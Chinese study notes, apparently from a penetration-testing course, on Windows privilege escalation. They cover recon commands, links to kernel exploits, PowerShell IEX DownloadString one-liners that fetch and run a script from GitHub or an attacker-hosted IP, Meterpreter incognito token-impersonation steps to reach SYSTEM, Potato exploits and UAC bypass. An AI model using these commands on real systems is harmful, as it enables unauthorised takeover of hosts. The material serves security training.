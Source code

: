 # **7月8日 内网提权**

### **什么是提权**

提权： 把低权限变为高权限

windows :  zhangsan  -> administrator -> system

linux : www-data  -> root 

### **提权的分类**

利用方式的不同：

本地提取：在一个低权限用户的前提下，通过漏洞提权至高权限用户

远程提权： 攻击者直接通过漏洞攻击获取最高权限用户

漏洞的不同：

操作系统提权：

windows：ms08067 ms1105

linux: dirty cow

应用程序提权：

mysql，mssql，IE，phpstudy

### **提权的思路**

提权的前提是目标系统存在漏洞或配置缺陷

- 基本信息收集

- 扫描系统、服务漏洞
- 寻找应用程序漏洞

## **windows ⭐️**

#### **收集信息 ：**

补丁信息 ： systeminfo

http://blog.neargle.com/win-powerup-exp-index/#

wmic qfe get Caption,Description,HotFixID,InstalledOn

杀毒软件：

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List

### 内核漏洞

windows 内核漏洞exp ： https://github.com/SecWiki/windows-kernel-exploits

##### **内核漏洞检测**

- powershell脚本 - Sherlock.ps1 ：

https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1

运行： 在cmd命令行中运行

powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1');Find-AllVulns

powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.111.77:8000/1.ps1');Find-AllVulns

- msf : post/multi/recon/local_exploit_suggester

(检测时要注意 ， meterpreter的位数必须要和靶机操作系统位数一致)

​        rottenpotato ：		https://github.com/foxglovesec/RottenPotato/blob/master/rottenpotato.exe

use incognito  #该模块用来窃取令牌、模仿令牌

list_tokens -u  #列举当前的令牌

execute -cH -f ./potato.exe  #执行exp

list_tokens -u  #查看令牌，有一个SYSTEM权限的模仿令牌

impersonate_token "NT AUTHORITY\\SYSTEM"执行偷取窃取令牌命令

- cs 

cna脚本拓展

Taowu ： https://github.com/pandasec888/taowu-cobalt-strike



**Origin Potato :**

https://github.com/foxglovesec/Potato

**RottenPotato & JuicyPotato:**

https://github.com/ohpe/juicy-potato

**Rogueotato**

https://github.com/antonioCoco/RoguePotato

**SweetPotato:**

https://github.com/CCob/SweetPotato

​                 ![img](../img/内网渗透-提权\Qwxi2caXJXyMsENClyvCKQ.png)        

### **bypassuac**

uac是用户账户控制 ， 在windows vista 之后出现，用于限制敏感操作。 由于一般情况下，windows 默认账户 都是处于administratos 组中，所以绕过uac，即可获取system用户权限

- msf ： exploit/windows/local/bypassuac  

 ! msf bypassuac 之后获取到meterpreter 还需要进行getsystem才能获取system用户

​                 ![img](../img/内网渗透-提权\mLBVaTpIf6bJuEJCw8I4Yg.pngw=1280&h=283.png)        

 ？ 在getsystem之后怎么回到administrators 组用户

​                 ![img](../img/内网渗透-提权\ROXoYor-EZGYYhp2XGpU8A.png)        

- cs bypassuac

​                 ![img](../img/内网渗透-提权\jb2wJl93KloOLJkFkbf8OA.png)        

​                 ![img](../img/内网渗透-提权\TWKhqOIR5HQw4cGPhecHIA.png)        

 